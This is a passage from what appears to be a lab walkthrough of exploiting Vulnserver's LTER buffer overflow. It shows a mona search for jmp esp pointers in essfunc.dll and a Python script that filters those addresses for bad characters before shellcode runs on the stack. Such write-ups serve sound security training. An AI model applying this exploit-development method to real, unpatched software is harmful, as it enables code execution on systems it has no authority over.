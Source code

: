 Finding this offset using mona by the command ```!mona find -s \xff\xe4 -m essfunc.dll```,

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/lter-mona-jmpesp.png">
</div>

We could see there are 9 pointers available for this exploit which has jmp esp opcode in it and it also doesn’t change its memory address

Eventhough ```ASLR``` is enabled for other parts, here it is disabled which makes the address to remain static & suitable for exploitation

```NX bit``` is also disabled, which allows us to execute shellcode on stack memory

Also, while checking the pointer addresses make sure that the address do not contain bad characters in it, which may cause poor exploitation

To find the ```suitable pointer address``` without restricted characters,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/LTER]
└─$ cat find-bad-address.py   
bad_chars=['0x80', '0x81', '0x82', '0x83', '0x84', '0x85', '0x86', '0x87', '0x88', '0x89', '0x8a', '0x8b', '0x8c', '0x8d', '0x8e', '0x8f', '0x90', '0x91', '0x92', '0x93', '0x94', '0x95', '0x96', '0x97', '0x98', '0x99', '0x9a', '0x9b', '0x9c', '0x9d', '0x9e', '0x9f', '0xa0', '0xa1', '0xa2', '0xa3', '0xa4', '0xa5', '0xa6', '0xa7', '0xa8', '0xa9', '0xaa', '0xab', '0xac', '0xad', '0xae', '0xaf', '0xb0', '0xb1', '0xb2', '0xb3', '0xb4', '0xb5', '0xb6', '0xb7', '0xb8', '0xb9', '0xba', '0xbb', '0xbc', '0xbd', '0xbe', '0xbf', '0xc0', '0xc1', '0xc2', '0xc3', '0xc4', '0xc5', '0xc6', '0xc7', '0xc8', '0xc9', '0xca', '0xcb', '0xcc', '0xcd', '0xce', '0xcf', '0xd0', '0xd1', '0xd2', '0xd3', '0xd4', '0xd5', '0xd6', '0xd7', '0xd8', '0xd9', '0xda', '0xdb', '0xdc', '0xdd', '0xde', '0xdf', '0xe0', '0xe1', '0xe2', '0xe3', '0xe4', '0xe5', '0xe6', '0xe7', '0xe8', '0xe9', '0xea', '0xeb', '0xec', '0xed', '0xee', '0xef', '0xf0', '0xf1', '0xf2', '0xf3', '0xf4', '0xf5', '0xf6', '0xf7', '0xf8', '0xf9', '0xfa', '0xfb', '0xfc', '0xfd', '0xfe', '0xff', '0x0']
jmp_esp_pointers=['0x625011af','0x625011bb','0x625011c7','0x625011d3','0x625011df','0x625011eb','0x625011f7','0x62501203','0x62501205']
bad_pointers=[]
good_pointers=[]
bad_chars=[x[2:] for x in bad_chars]
for x in jmp_esp_pointers:
        byte_data=[x[2:4],x[4:6],x[6:8],x[8:]]
        for y in byte_data:
                if y in bad_chars:
                        print("Found bad char "+y+" in "+x)
                        bad_pointers.append(x)
bad_pointers=list(set(bad_pointers))
for x in bad_pointers:
        if x in jmp_esp_pointers:
                jmp_esp_pointers.remove(x)
good_pointers=jmp_esp_pointers
print("\nAvailable JMP ESP pointers without bad characters are")
print(good_pointers)
```